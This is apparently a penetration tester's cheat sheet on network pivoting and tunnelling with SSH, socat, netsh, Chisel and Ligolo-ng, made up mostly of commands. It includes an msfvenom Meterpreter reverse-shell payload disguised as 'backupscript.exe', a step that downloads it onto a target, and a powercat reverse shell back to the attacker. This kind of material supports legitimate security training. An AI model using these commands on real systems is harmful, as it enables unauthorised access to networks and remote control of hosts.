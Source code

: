 ```yaml
---
layout: default
---
```


# Dynamic Port Forwarding with SSH and SOCKS Tunneling
# SSH Local Port Forwarding
```bash
# Forward port 3306 from 10.129.202.64 to localhost 1234
$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

# Dynamic Port Forwarding
```bash
$ ssh -D 9050 ubuntu@10.129.202.64
```

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```bash
$ proxychains nmap -v -sn 172.16.5.1-200
```

# Remote/Reverse Port Forwarding with SSH
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

```bash
ubuntu@pivot$ python3 -m http.server 8123
```

```powershell
PS > Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

```bash
$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

# [Socat](https://linux.die.net/man/1/socat) Redirection
## Reverse Shell
```bash
# On pivot machine
$ socat TCP4-LISTEN:<FORWARD_PORT>,fork TCP4:<OUR_IP:OUR_PORT>
```

- Generate reverse msfvenom payload set LHOST has the pivot machine and LPORT FORWARD_PORT
- Set LHOST = 0.0.0.0 on msfconsole and LPORT = <OUR_PORT>

## Bind Shell

- Generate reverse msfvenom payload set LHOST has the pivot machine
- Set LHOST = 0.0.0.0 on msfconsole

# Port Forwarding with Windows Netsh
```
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

# SOCKS5 Tunneling with Chisel
`Find PID to kill`
```bash
$ lsof -i:8080 
```


```bash
# Local Machine
$ chisel server --socks5 --reverse`

# Remote machine
./chisel client --fingerprint f9KLbYov18MaH86fvgZhbVMyTAj4LAT6Iv8E8Nlwy0k= 10.10.15.23:8080 R:8081:127.0.0.1:445
```

# [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)

[Guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
[Video](https://www.youtube.com/watch?v=qou7shRlX_s)


```bash
# Proxy (Attack)
$ sudo ip tuntap add user [your_username] mode tun ligolo

$ sudo ip link set ligolo up

$ ./proxy -selfcert
$ ./proxy -autocert
```



```powershell
# Target
> ./agent -connect 10.10.15.184:11601 --ignore-cert
```

```bash
# Attack
session

[Agent : ubuntu@WEB01] » ifconfig

[Agent : ubuntu@WEB01] » start
```

[IPCalculator](https://jodies.de/ipcalc)
```bash
$ sudo ip route add 172.16.4.0/23 dev ligolo
```

## Download and Upload files from and to Target
```bash
# Redirect 8080 on Target machine to our Attack 8080 to upload files to it 
» listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:8080 --tcp

# Redirect 8000 on Target machine to our Attack 8000 to download files from it 
» listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp
```

## Reverse Shell Target Machine to Attack Machine
```bash
# Attack
[Agent : session] » listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

$ nc -lnvp 10000
```


```powershell
# Target
https://github.com/besimorhino/powercat/blob/master/powercat.ps1

Copy into powershell

> powercat -c (Internal Pivot Machine Interface) -p 30000 -ep
```

## Double Pivot[https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c]
- https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/


After access to first machine or pivot, if exists another network we can also pivot to it.

First we need to put agent on pivot machine, for it we need to open a port on our attack machine and add a listener on pivot machine to redirect from port 8080 to our local port 9999.

### Upload Agent to Pivot
> Open port to pass our http server

```bash
# Attack
[Agent : session] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:9999 --tcp
``` 

```bash
# Target
Download agent file from (Internal Pivot Machine Interface):8080
```

```bash
# Attack
$ sudo ip tuntap add user [your_username] mode tun ligoloSec

$ sudo ip link set ligoloSec up

$ sudo ip route add 172.16.5.155 dev ligoloSec

[Agent : session] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

```powershell
# Target
> ./agent -connect (Internal Pivot Machine Interface):11601 --ignore-cert
```

```bash
# Attack
[Agent : session] » start --tun ligoloSec
```


## Forward Ports from Pivot Machine to Attack Machine
```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```
